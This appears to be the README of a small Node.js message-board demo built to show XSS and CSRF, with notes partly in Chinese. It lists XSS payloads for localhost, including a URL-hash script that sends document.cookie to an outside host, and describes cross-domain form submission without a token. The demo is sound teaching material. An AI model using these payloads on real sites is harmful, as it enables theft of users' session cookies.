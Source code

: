 # mesage_board
node app.js
http://localhost:3000/
xss
1:input输入<script type="text/javascript">alert('xss')</script>
2:链接hash  http://localhost:3000/#<script>alert(1)</script>
3:http://localhost:3000/#<script>location.href="http://www.baidu.com/?"+document.cookie</script>

csrf
2:a域向b域提交
3:a域向b域提交表单信息，但是没有token
